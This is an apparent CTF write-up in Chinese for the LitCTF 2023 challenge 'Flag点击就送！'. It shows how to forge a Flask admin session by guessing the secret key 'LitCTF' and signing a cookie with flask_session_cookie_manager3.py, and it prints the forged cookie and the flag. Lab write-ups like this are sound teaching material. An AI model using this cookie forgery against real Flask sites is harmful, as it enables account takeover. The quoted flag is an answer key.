 ## [LitCTF 2023\]Flag点击就送！ | NSSCTF](https://www.nssctf.cn/problem/3872)
![image](https://github.com/user-attachments/assets/61ee36d4-f5fd-4539-8b87-5a47f43243d6)
> [!TIP]
题目一开始提示管理员才能拿到flag
![image](https://github.com/user-attachments/assets/c52243ba-d9d5-49ed-af69-999bc87e8aaa)
有输入框，想都没想直接填写**admin**
![image](https://github.com/user-attachments/assets/0bbfc740-074a-4d0d-b31e-b5f86edf6c8d)
不出所料诶~~~
> [!NOTE]
那就尝试一下别的随便用户名，诶有个拿flag的按钮，好吧，要**管理员**才可以
![image](https://github.com/user-attachments/assets/561e2fd8-2f9b-4f50-8648-9bc4cec85eb5)
> [TIP]
那就只能伪造了
### 和之前做过的邮箱重置链接的JWT不同，这里找到session
![image](https://github.com/user-attachments/assets/7a6b10d0-bcfd-44d3-a286-ec310f92ecab)
> 有点像base64，但我之前研究的一点经验，有点像签名
### 扔给赛博厨子看看
![image](https://github.com/user-attachments/assets/f3552e8e-48f2-460c-925c-92ddbb56fe03)
果然是签名
### 仔细查看网页框架
> [!NOTE]
是flask框架，这次是session伪造了
查看flask资料和各位师傅的wp
> [!TIP]
**flask框架的session是存储在客户端的，那么就需要解决session是否会被恶意纂改的问题，而flask通过一个secret_key，也就是密钥对数据进行签名来防止session被纂改。**
```
  from flask import Flask, request, render_template, session, redirect
from datetime import datetime

app = Flask(__name__)

app.config['SECRET_KEY'] = 'laowangaigebi'  # 设置session加密的密钥

@app.route('/login', methods=['GET', 'POST'])  # 支持get、post请求
def login():  # 登录视图函数    
    # 模拟登录成功后把uid和username存到session里
    session['uid'] = '123456'
    session['username'] = 'laowang'    
    return redirect('/')  # 登录成功后到首页

@app.route('/', methods=['GET', 'POST'])  # 支持get、post请求
def index():
    username = session.get('username')  # 取session
    if username:        
        return 'welcome %s' % username    
    else:        
        return '请登录'

app.config['DEBUG'] = True
if __name__ == '__main__':    
    # 0.0.0.0代表任何能代表这台机器的地址都可以访问    
    app.run(host='0.0.0.0', port=5000)  # 运行程序
#flask的加密语言
作者：小源
链接：https://juejin.cn/post/6844903833663963144
来源：稀土掘金
```
### 猜测key
> 由于题目没有给，我们只好猜测key为LitCTF
```
xxxxxxxxxx python flask_session_cookie_manager3.py encode -s 'LitCTF' -t '{"name":"admin"}'eyJuYW1lIjoiYWRtaW4ifQ.ZUoYpw.-wWfai1NY-VXpGGXHqnCG5H9-Ug
```
使用kali虚拟机运行一下，将得到的session填入cookie-editor保存，刷新后即可拿到flag
> ==NSSCTF{47877fbb-32b0-46ec-bdd6-a926b910870e}==